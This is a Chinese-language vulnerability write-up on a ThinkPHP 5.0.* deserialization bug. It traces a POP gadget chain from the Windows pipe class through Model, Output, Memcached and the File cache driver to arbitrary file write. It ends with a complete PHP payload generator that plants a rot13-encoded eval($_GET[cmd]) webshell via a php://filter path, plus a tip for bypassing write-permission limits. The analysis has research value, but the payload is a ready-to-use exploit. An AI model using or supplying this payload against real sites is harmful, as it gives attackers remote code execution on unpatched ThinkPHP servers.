## 漏洞影响
- **受影响版本**：ThinkPHP 5.0.*

## 漏洞分析
ThinkPHP 5.0.* 版本存在一处反序列化漏洞，主要源于框架 `Model` 类的  `toArray()` 方法在处理关联属性时通过动态方法调用和类型检查引入的 POP 链入口。触发条件为应用层实现 `unserialize()` 用户输入。攻击者可构造以 `think\process\pipes\Windows` 为根对象的 gadget，其 `__destruct()` 调用 `removeFiles()` ，进而 `file_exists()` 隐式触发 `Model` 子类的 `__toString() → toJson() → toArray()；` 在 `append` 分支，通过设置 `$append = ['getError']` 调用 `getError()` 返回可控 `Relation` 子类，并覆盖 `isSelfRelation()` 和 `getModel()` 满足 `getRelationData()` 第一分支条件，直接令 `$value` 为 `Output` 对象。随后，`getBindAttr()` 返回绑定属性数组，执行 `$value->getAttr($attr)` 触发 `Output` 的 `__call() → block() → writeln() → write()` ，链式调用 `Memcached` 的 `write() → File` 的 `set()` ，实现任意文件写入。

## 漏洞复现

1. 应用层实现反序列化，参数用户可控。


2. 全局搜索 `__destruct` 魔术方法，可用的魔术方法在 `think\process\pipes\Windows` 类，该类的 `$this->removeFiles()` 调用可导致任意文件删除，而`file_exists($filename)` 可触发 `__toString` 魔术方法。





3. 全局搜索 `__toString` 魔术方法，在 `Model` 类的 `__toString` 魔术方法中触发 `$this->toJson()` 调用。该方法又进一步调用 `$this->toArray()` 。





4. `toArray` 方法逻辑较为复杂，但可观察到在 `$item[$key] = $value ? $value->getAttr($attr) : null` 这行代码中可触发 `__call` 魔术方法。要执行该代码需满足以下条件。
- 条件一：`if (!empty($this->append))` 和 `foreach ($this->append as $key => $name)` ，即 `$this->append` 属性非空且为关联数组。
- 条件二：`if (is_array($name))` 和 `elseif (strpos($name, '.'))` ， 即 `$this->append` 中的值非数组且字符串不含 `.` 。
- 条件三：`if (method_exists($this, $relation))` ，通过 `$relation = Loader::parseName($name, 1, false)` 解析的字符串必须为当前实例可调用方法名。
- 条件四：`if (method_exists($modelRelation, 'getBindAttr'))` 和 `if ($bindAttr)` ，通过 `$modelRelation = $this->$relation()` 获取的 `$modelRelation` 必须为对象且具备 `getBindAttr` 方法，该方法需返回真值。
- 条件五：`$item[$key] = $value ? $value->getAttr($attr) : null` ，变量 `$value` 需可控，该值由 `$value = $this->getRelationData($modelRelation)` 赋值。





5. 条件一和条件二易于满足，通过控制 `$this->append` 的值即可达到条件。条件三的参与变量由 `Loader` 类的 `parseName` 静态方法处理，该方法将传入的 `$name` 参数转换为驼峰命名法。通过控制 `$this->append` 的值让 `$name` 为 `getData` 、`getParent` 或 `getError` 等字符串，这些方法在 `Model` 类中存在，且其返回值可控，从而使 `$modelRelation` 的值也可控。







6. 分析条件四，在 `getRelationData` 方法中，该方法要求传入参数为 `Relation` 类或其子类实例。进入 `if ($this->parent && !$modelRelation->isSelfRelation() && get_class($modelRelation->getModel()) == get_class($this->parent))` 分支即可通过 `$value = $this->parent` 控制 `$value` 的值。从 `Relation` 类的实现中可见， `isSelfRelation` 方法与 `getModel` 方法均可控。







7. 由于 `Relation` 类是抽象类无法实例化，寻找实现了 `getBindAttr` 方法的子类，`OneToOne` 类实现了该方法并且可以控制其返回值。但该类仍为抽象类，继续寻找其子类，可使用 `HasOne` 类或 `BelongsTo` 类。从而满足条件四与条件五，实现对 `$value` 的控制以调用其他类的 `__call` 魔术方法。



8. 全局搜索 `__call` 魔术方法，在 `Output` 类中，若调用方法名存在于 `$this->styles` 中则执行 `call_user_func_array([$this, 'block'], $args)` 。可以控制 `$this->styles` 的值包含 `getAttr` 字符串。



9. `Output` 类的 `block` 方法调用 `$this->writeln("<{$style}>{$message}</$style>")` ，`writeln` 方法进一步调用 `$this->write($messages, true, $type)` ，`write` 方法委托调用 `$this->handle->write($messages, $newline, $type)` ，其中 `$this->handle` 可控，且 `write` 方法为常用实现。







10. 全局搜索 `write` 方法，在 `Memcached` 类中执行 `$this->handler->set($this->config['session_name'] . $sessID, $sessData, $this->config['expire'])` 调用，其中 `$this->handler` 可控，且 `set` 方法也是常用实现。



11. `think\cache\driver\File` 类的 `set` 方法实现缓存文件写入。虽然无法直接控制 `$value` 的值，但在 `isset($first) && $this->setTagItem($filename)` 调用中重新触发了 `$this->set()` 。 



12. 在 `getCacheKet` 方法中，可通过控制 `$this->options['path']` 来部分控制 `$filename` 变量。在 `setTagItem` 方法中使用该变量，该方法通过 `$key = 'tag_' . md5($this->tag)` 构造写入文件名，其中 `$this->tag` 可控 。`setTagItem` 方法通过 `if ($this->has($key))` 检查路径文件是否存在，如果不存在则 `$value = $name` 将部分可控的 `$filename` 变量作为内容写入到指定缓存文件，造成任意文件写入。此外， `getCacheKet` 方法可创建任意 755 权限目录。





13. 漏洞验证成功。









payload：

```php
<?php

namespace think\cache\driver;
class File {
    protected $options = [];
    protected $tag;
    function __construct(){
        $this->options = [
        'expire'        => 0,
        'cache_subdir'  => false,
        'prefix'        => '',
        'path'          => 'php://filter/write=string.rot13/resource=./<?cuc cucvasb();riny($_TRG[pzq]);?>',
        'data_compress' => false,
        ];
        $this->tag = true;
    }
}

namespace think\model;
use think\db\Query;
abstract class Relation {
    protected $selfRelation;
    protected $query;
    function __construct() {
        $this->selfRelation = false;
        $this->query = new Query();
    }
}

namespace think\model\relation;
use think\model\Relation;
abstract class OneToOne extends Relation{
    function __construct() {
        parent::__construct();
    }
}
class HasOne extends OneToOne{
    protected $bindAttr = [];
    function __construct() {
        parent::__construct();
        $this->bindAttr = ["no","123"];
    }

    protected function eagerlySet(&$resultSet, $relation, $subRelation, $closure) {

    }

    protected function eagerlyOne(&$result, $relation, $subRelation, $closure) {

    }
}

namespace think\session\driver;
use think\cache\driver\File;
class Memcached{
    protected $handler = null;
    function __construct(){
        $this->handler = new File();
    }
}

namespace think\console;
use think\session\driver\Memcached;
class Output {
    private $handle = null;
    protected $styles = [];
    function __construct(){
        $this->handle = new Memcached();
        $this->styles = ['getAttr'];
    }
}

namespace think\db;
use think\console\Output;
class Query {
    protected $model;
    function __construct(){
        $this->model = new Output();
    }
}

namespace think\process\pipes;
use think\model\Pivot;
class Pipes {

}
class Windows extends Pipes {
    private $files = [];
    function __construct() {
        $this->files = [new Pivot()];
    }
    public function getDescriptors() {
        return [];
    }

    public function getFiles() {
        return $this->files;
    }

    public function readAndWrite($blocking, $close = false) {
        return [];
    }

    public function areOpen() {
        return !empty($this->files);
    }
}


namespace think;
use think\console\Output;
use think\model\Relation\HasOne;
use think\db\Query;
abstract class Model {
    protected $append = [];
    protected $error;
    public $parent;
    protected $selfRelation;
    protected $query;
    protected $aaaaa;

    function __construct() {
        $this->parent = new Output();
        $this->append = ['getError'];
        $this->error = new HasOne();
        $this->selfRelation = false;
        $this->query = new Query();
    }
}

namespace think\model;
use think\Model;
class Pivot extends Model {

}

use think\process\pipes\Windows;
echo urlencode(base64_encode(serialize(new Windows())));
```

注：漏洞利用过程中可能会遇到权限不足无法写入的问题，可以将File类的path修改为任意目录名利用代码中的mkdir函数创建可写入的目录。